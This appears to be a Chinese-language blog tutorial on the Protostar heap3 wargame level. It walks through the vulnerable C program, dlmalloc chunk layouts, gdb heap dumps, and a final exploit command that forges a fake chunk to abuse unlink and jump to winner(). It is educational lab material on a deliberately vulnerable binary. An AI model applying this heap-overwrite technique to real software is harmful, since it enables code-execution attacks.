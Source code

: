 ```yaml
---
layout: post
title: Protostar教程之unlink
excerpt: "heap漏洞之unlink"
categories: [Protostar系列教程]
comments: true
---
```


参考地址:https://secinject.wordpress.com/2018/01/18/protostar-heap3/

漏洞代码如下
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
 
void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
 
int main(int argc, char **argv)
{
  char *a, *b, *c;
 
  a = malloc(32);
  b = malloc(32);
  c = malloc(32);
 
  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);
 
  free(c);
  free(b);
  free(a);
 
  printf("dynamite failed?\n");
}
```
我们的目标是运行winner function

首先我们看一下分配的堆块与空闲的堆块

![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/Protostar教程之unlink_1.png)

 As a short reminder: dlmalloc keeps free chunks (chunks available for allocation) in a doubly linked list of chunks (right side of Image 1). Each free chunk has fields representing:

free chunk各个字段的意义:

- Prev_size: 如果前一个chunk的状态是allocated, 那么这个字段代表它(前一个chunk)的大小.
- Size: free chunk的大小
- FD pointer: 存放doubly linked list的指针指向下一个free chunk
- BK pointer: 存放doubly linked list的指针指向上一个free chunk
- Unused space: 如果该chunk被分配,那么这块区域存放数据
- Size: chunk的大小, this field is used for easier merging of chunks.

同样,allocated chunk各个字段的意义:

- Previous size: If previous chunk is allocated this field represents last 4 bytes of that chunk. If previous chunk is free, this field represents the size of that chunk.
- Size: Size of this chunk including chunk metadata (header). Last bit of this chunk (called P or “prev_inuse” bit) indicates if the previous chunk is in use or not.
- User data: Space available for user data.
 
Important thing to note here are the relations between those two chunk types: Imagine you have a user allocated chunk of memory which looks as the left side of Image 1. If we convert this chunk into a free chunk type (right side of Image 1), the first 8 bytes of “User data” will be represented as FD and BK pointers of the free chunk. We will need this later because it is crucial for our exploit.
```
内存中数据的样子          | 
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"a" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"b" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"c" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
TOP CHUNK                 |
--------------------------|
...                       |
--------------------------|
STACK                     |
--------------------------|
c                         |
--------------------------|
b                         |
--------------------------|
a                         |
--------------------------|
```
### 重点：
What will happen here when free(c) gets called is the following: The program will see that the “c” chunk’s size field is set to 0xfffffffc which represents -4 and because it is an even value, it will think the previous chunk is free. Then, by Image 5, line 4, it will navigate to the previous free chunk by subtracting its prev_size field (0xfffffff8 = -8) from the start of “c” chunk pointer and thus actually adding +8 and moving into the “c” chunk by 8 bytes, arriving at the beginning of the memory allocated by malloc(c). We can then forge an “virtual” chunk inside the chunk “c”‘s “User data” field which will be interpreted as a free chunk and unlinked. This looks like this:
```
内存中数据的样子          | 
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"a" allocated space [32B] |
--------------------------|
prev_size [4B]            | 
--------------------------|
size [4B]                 | 
--------------------------|
"b" allocated space [32B] |
--------------------------|
0xfffffff8                |
--------------------------|
0xfffffffc                | 
--------------------------|
cccc                      |
--------------------------|
cccc                      | 
--------------------------|
redir_addr -12            | 
--------------------------|
winner_addr               |
--------------------------|
```
The “CCCCCCCC” bytes represent fake prev_size and size bytes in the fake chunk made inside the “c” chunk “User data” space after which (redir_addr – 12) and winner_addr are located, which represend FD and BK because the fake chunk is considered free.

free前堆中的情况：
```bash
0x804b000:	0x00000000	0x00000029	0x61616161	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x62626262	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x63636363	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```
free(c)
```bash
0x804b000:	0x00000000	0x00000029	0x61616161	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x62626262	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x00000000	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```
free(b)
```bash
0x804b000:	0x00000000	0x00000029	0x61616161	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x0804b050	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x00000000	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```
free(a)
```bash
0x804b000:	0x00000000	0x00000029	0x0804b028	0x61616161
0x804b010:	0x61616161	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x0804b050	0x62626262	0x62626262	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00000029	0x00000000	0x63636363
0x804b060:	0x63636363	0x00000000	0x00000000	0x00000000
0x804b070:	0x00000000	0x00000000	0x00000000	0x00020f89
0x804b080:	0x00000000	0x00000000	0x00000000	0x00000000
```

最终pwn代码：
```
./heap3 `python -c 'print "A"*16 + "\xb8\x64\x88\x04\x08\xff\xe0"'` `python -c 'print "A"*32 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "B"*8 + "\x1c\xb1\x04\x08" + "\x18\xc0\x04\x08"'`
```